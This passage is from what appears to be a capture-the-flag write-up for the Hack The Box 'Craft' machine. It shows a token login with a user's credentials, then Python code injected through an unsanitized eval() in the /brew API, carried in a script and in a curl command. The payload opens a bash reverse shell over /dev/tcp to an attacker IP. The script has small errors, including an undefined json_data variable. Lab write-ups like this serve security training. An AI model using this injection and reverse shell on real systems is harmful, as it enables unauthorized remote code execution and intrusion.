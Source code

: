 <p>Based on these finds and with the previous <code>/auth/login</code> api endpoint we looked at we're starting to shape up. We should initially be able to login and generate a valid token as <code>dinesh</code> using his credentials. Combine this with an unsanitized <code>eval()</code> in the <code>/brew</code> endpoint and we should be able to be able to pass a payload through a <code>POST</code> request. A few different payloads were tested however the following payload ended up working</p>

{% highlight shell %}
"abv":"__import__('os').system('bash -i >& /dev/tcp/10.10.xx.xx/1337 0>&1")"
{% endhighlight %}

<p>Combining all the parts we write a small script to put it all together.</p>

{% highlight python %}
root@kali:~/Desktop/HTB/Craft# cat test.py 
#!/usr/bin/env python

import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token = json_response['token']#'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTU0OTM4NTI0Mn0.-wW1aJkLQDOE-GP5pQd3z_BJTe2Uo0jJ_mQ238P5Dqw'

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

print(headers)
# make sure token is valid
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)

# create a sample brew with bogus ABV... should fail.

print("Create bogus ABV brew")
brew_dict = {}
brew_dict['abv'] = '__import__(\'os\').system(\'bash -i >& /dev/tcp/10.10.xx.xx/1337 0>&1")"'
brew_dict['name'] = 'blah'
brew_dict['brewer'] = 'blah'
brew_dict['style'] = 'blah'

response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
{% endhighlight %}

<p>Despite generating a valid token and submitting a bogus ABV successfully I had issues getting the payload to trigger through the script. I ended up going the manual route and executed it directly.</p>

{% highlight shell %}
root@kali:~/Desktop/HTB/Craft# curl -H "X-Craft-API-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTcwOTE0NTYwfQ.y72h6WBiAdhEQ7X9BFNoBHhYSOiRbmynWs1Hp_X8c9M" -H "Content-Type: application/json" -k -X POST https://api.craft.htb/api/brew/ --data '{"name":"test","brewer":"test", "style": "test", "abv":"__import__('os').system('bash -i >& /dev/tcp/10.10.xx.xx/1337 0>&1")"}'
{% endhighlight %}
